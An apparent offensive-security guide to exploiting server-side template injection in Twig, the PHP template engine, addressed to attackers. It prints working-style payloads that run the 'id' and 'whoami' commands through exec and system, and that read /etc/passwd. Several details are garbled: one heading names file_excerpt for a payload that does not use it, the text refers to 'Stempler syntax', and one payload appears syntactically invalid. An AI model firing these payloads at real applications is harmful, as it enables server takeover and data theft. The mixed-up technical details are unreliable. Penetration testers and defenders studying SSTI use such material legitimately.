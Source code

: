 ```yaml
---
title: 'Twig Exploitation: Mastering Template Injection'
description: Explore the intricacies of Twig exploitation to achieve command execution
  and file inclusion using template injection techniques.
keywords:
- Twig exploitation
- template injection
- remote code execution
- file inclusion
- PHP security
- Symfony vulnerabilities
- Twig filters
- server-side template injection
---
```


# Twig Exploitation

## Context

In this guide, we focus on exploiting Twig, a PHP-based template engine commonly used in Symfony applications and other frameworks. Offensive operators will learn how to identify and exploit Twig template injection vulnerabilities to achieve remote code execution or unauthorized information disclosure. The reader is expected to have knowledge of template engines, server-side rendering, PHP syntax, and general server-side template injection (SSTI) concepts.

## Theory

### Twig Template Engine Internals

Twig is a flexible, fast, and secure template engine for PHP. It is integral to applications like Symfony, where it processes server-side templates to produce dynamic web pages. While designed to abstract logic from presentation, misuse or improper security configurations can lead to vulnerabilities. Rendering user inputs directly into Twig templates without adequate sanitation is a common vulnerability model that attackers exploit to execute code or access sensitive data.

### Twig Expression Syntax and Attack Surface

Twig expressions are encapsulated in double curly braces `{{ }}` for variable output purposes, while logic control structures are enclosed with `{% %}`. The attack surface arises when attackers can inject Twig expressions into the template context. Despite Twig's restrictions on direct PHP function invocation, attackers often bypass these limitations by exploiting lesser-known objects or filters within the Twig environment.

### Critical Twig Objects and Filters for Exploitation

Several objects and filters within Twig can be repurposed for malicious activities.

- `{{ _self }}`: Accesses the current template object exposing internal functionalities.
- `{{ _self.env }}`: Provides access to the Twig environment, offering deeper interaction opportunities, often used as a pivot for further exploitation.
- Filters like `file_excerpt` may allow file inclusion, and under certain conditions, facilitate remote command execution.

### Twig RCE and File Inclusion Vectors

Exploitation strategies typically involve leveraging vulnerable objects or filters to execute system commands or perform file operations. Implementation flaws, such as misconfigured sandboxes or custom filters, can inadvertently restore access to dangerous PHP functions that are generally restricted. Maintaining awareness of these vectors is key to successful exploitation and overall campaign resilience.

## Practice

### Twig Code Execution via file_excerpt Filter

In Twig, the environment can be manipulated to inject custom functionalities via its filters. Below are steps to achieve RCE through filter abuse:

- **Injection to Register `exec`:**

    ```jinja
    {{ _self.env.registerUndefinedFilterCallback('exec') }}
    ```

    This statement sets up `exec` as a filter callback, effectively enabling command execution capabilities through Stempler syntax.

- **Execute 'id' Command:**

    ```jinja
    {{ ['id']|filter('exec') }}
    ```

    This filter invocation executes the `id` command on the server, showcasing proof of concept for remote code execution.

### Twig File Inclusion via file_excerpt

Misuse of `file_excerpt` can allow attackers to read important system files:

- **Read Sensitive Files:**

    ```jinja
    {{ _self.env.getFilter('file_excerpt').getCallable()('/etc/passwd', 1) }}
    ```

    Using the `file_excerpt` filter, sensitive files such as `/etc/passwd` can be exposed, emphasizing data access through variable reference exploitation.

### Twig RCE via Custom Filter Injection

Custom filters can be added to escalate the exploit:

- **Custom Filter for System Execution:**

    ```jinja
    {{ _self.env.addFilter(name='evil', filter=constant('system')) }}
    ```

    With this payload, a filter connecting to PHP's `system()` function is injected into the Twig environment.

- **Command Execution:**

    ```jinja
    {{ 'whoami'|evil }}
    ```

    This command uses the malicious 'evil' filter to execute `whoami`, demonstrating remote code execution capabilities.

## Tools

- **Burp Suite**
- **curl**

The above tools are essential for testing and exploiting SSTI vulnerabilities in real-world applications.